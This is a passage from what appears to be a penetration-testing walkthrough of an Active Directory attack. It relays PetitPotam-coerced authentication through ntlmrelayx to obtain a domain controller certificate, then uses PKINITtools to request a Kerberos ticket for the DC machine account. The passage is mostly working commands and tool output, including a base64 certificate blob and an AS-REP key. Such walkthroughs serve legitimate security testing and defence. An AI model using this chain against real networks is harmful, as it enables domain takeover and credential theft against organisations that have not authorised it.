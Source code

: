 ```shell
b3DQEMAQMwDgQIotjk2P2yia0CAggAgIIHSG21MOi4oTSsSF8mdBc/lI2BO2mS8DNhhRUatCFJjsqEjv28vYGssGAI57MKDqFX0KizI5GDwhG4
VTqbvDAItFISe+lWssSsD6haS47K4R3+e9b0Han8eJmhFE4JW3zKJBjPj0rLfFebZjWZak9eTKyc+en/yBs887nPXzqlNzKEJWORZ4TZRg7fEi
aSUIdlDN/keAhVa1v7tRJeRmVRIRd++s2rhheyNv137tan1Mr1Ci045DEpvxTJXxjR3qfZTowlnkMzR0HNnol49kfOjRouVWNfiwziLvwPVvF8
F2ZPs4A3ncp6chTa+RFaHApZ2byRBF8+4hxjEg37UO6igWNOS+SCt5IeKA3epcUS4QMbRy/sKn7A+aQTHfBOrOf9eWdWwRwmE7iib7xQH1K7PU
OIOCLP3BnZ6DQEhcTJwGPoayM8oNYj+1jjZWhLF05klZ7qRnrz9d6nfh4GD8F8mrizS6Qj5fAvSB09R0fn5+nPJB81eNcj9D+yo8S3BxK3WuPN
g+17E6ElAOPdcFoqmY6wErzOsr85wgohOpuxJi5Y4xN7fw2r6ad8jGr8wFpFJKUlN8SgFhxa+DqZ9MvVOYUgDv/OM0egmafLrdoNQMXYS6HiSa
0C+sKV13d90Lery8POWU1EfVYxOEAHU3o2ZnZ+DJ77p9FH0KkSzE7/x2D4iqg2PaBkN36EW5myzJGC3KtHmLKeIEJwoHpChkDAupeUdnjLlFHb
mizM1r51Bh3i/CRBwmQXDkgJG8MwuyISqmLR7t/gjJtojOmqxo6l4TCBw50rBDwyWQGp7jVHVi0xghe7LKLbFxDEN14kSG+qWhaCIrOHXyrJkY
Z0DuUqXl3EZLL6kPPXfZZ1aaN5xhG55lXF0YouelqNqZACGOyHnuEQVSaogcM9Pq0zQA5nrJWYoj+Qsd6ZL0Aku+G1OwQiRVQcL2fmAL7dw/My
6MJ1GuUIoTYfeHGYm9iqZSKgvfhvHsSgBkr3Mn4NfGrVFwwV7NeRqElmlZO8w0eOjfCSv7ggvcZ7uJ1g6yDXHy2KKqn2tsicApK/7mDucQEnJu
NdypW6tc9x4XzfDFGlZ4V9LAv9qYimX0v9NEaRrZWHNNA95N4qcsxGGFnCkG+F3a9PHgwA1+AMhHjwLIOIb5EB0uecsy1JlLu2o4MwggnBBgkq
hkiG9w0BBwGgggmyBIIJrjCCCaowggmmBgsqhkiG9w0BDAoBAqCCCW4wgglqMBwGCiqGSIb3DQEMAQMwDgQIgnJAMbSMz5ECAggABIIJSI24e2
cXUfGAXYWhScNXdmrXz7OqwPPvYX+t7V45CCpJd/mjW8zR4m+rMO+Q8zftIW9ZR2Mp65IbuBXq1KLtqLez9dbyqFt4hMCThRhZ8jkG0Rm/tSot
akJsKKeWfdinr58G6RahcsCOjpa/jlzTjqQEsN4faL5VSkf00K2Z3SP3H3drJ9HRwlwp6y2dQ6dPfGFTvJqHzfSaGJ7CgKZAHneIdreOKpotb1
3EQJ1VTaDx4i+RwHqcIHzhTeDeB1jfE4ybh316RvL0cuULs3k0ZoPF7pJ7PPe/9B1gkdEiUvYoo+1W42JuQ03RtVRUdIyv/1hiZN6a2eCaNWMM
...etc
yE4JTYCKREBQwORtWHXInaVraRgs3QwNQYBVa/aCQv5tQfeZDcy6s3raOLTCVSnVOBCS82a1t3QmXASDJoifTx7i4hxDRCpWUudcrkUaUtDCtp
[*] Skipping user ADVICTIM2012R2$ since attack was already performed
```
Now lets copy this base64 certicate and store it in a file crt.pfx.b64.
Next decode its contents and write it to a separate file using a command similar to the one below: 
```shell
(pyvirtenv) ┌──(root💀coolhostname)-[~/pyvirtenv]
└─# cat crt.pfx.b64 | base64 -d > crt.pfx
```

Now the next level comes into play where we will use the DirkJam tooling to get kerberos ticket of the AD machine account `ADVICTIM2012R2$`.
```shell
(pyvirtenv) ┌──(root💀coolhostname)-[~/pyvirtenv]
└─# python3 PKINITtools/gettgtpkinit.py -cert-pfx crt.pfx victim.com/ADVICTIM2012R2\$ out.ccache
2022-05-16 08:16:49,030 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2022-05-16 08:16:51,876 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2022-05-16 08:16:52,241 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2022-05-16 08:16:52,241 minikerberos INFO     fac3a7b493bd2d3a32c7fb959345c11e712ef96db0e46205150cdd57938490ef
INFO:minikerberos:fac3a7b493bd2d3a32c7fb959345c11e712ef96db0e46205150cdd57938490ef
2022-05-16 08:16:52,247 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```
You need the following for the command to work:
- The internal domain name (victim.com)
- The hostname of the DC (ADVICTIM2012R2$) you triggered authentication with using PetitPotam. Don’t forget to escape the $ with a backslash
- Decoded version of the Base64 PFX you just generated with ntlmrelayx (crt.pfx)
